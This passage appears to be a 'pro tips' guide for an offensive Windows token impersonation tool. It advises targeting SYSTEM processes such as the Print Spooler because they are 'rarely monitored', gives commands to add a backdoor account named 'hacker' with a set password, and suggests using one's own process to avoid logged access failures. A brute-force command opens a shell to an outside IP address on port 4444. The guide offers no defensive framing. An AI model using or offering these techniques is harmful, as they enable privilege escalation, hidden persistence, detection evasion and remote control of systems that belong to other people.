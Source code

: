 Here are pro tips for mastering the Token Impersonation Tool:

🔥 PRO TIPS & ADVANCED TECHNIQUES
1. Process Selection Strategy
powershell# DON'T target these (too protected):
# - smss.exe (PID 400)
# - csrss.exe
# - wininit.exe  
# - lsass.exe
# - services.exe

# DO target these (accessible SYSTEM processes):
.\TokenImpersonate.exe list | findstr "spoolsv\|SearchIndexer\|dllhost\|msdtc\|svchost"

# Best targets in order:
# 1. spoolsv.exe (Print Spooler) - rarely monitored
# 2. SearchIndexer.exe - low priority service
# 3. dllhost.exe - generic COM host
# 4. msdtc.exe - rarely used
# 5. svchost.exe - pick one with SYSTEM privileges
2. Use Your Own Process for Stealth
powershell# Instead of targeting random processes, use your current shell
$pid
Get-Process -Id $pid

# Then use YOUR PID (you already have access to it)
.\TokenImpersonate.exe 6312 adduser hacker Pass123!

# Why? No failed access attempts logged, cleaner operation
3. Brute Force is Your Friend
powershell# Don't guess PIDs - let brute force find what works
.\TokenImpersonate.exe brute Administrator shell 192.168.19.128 4444
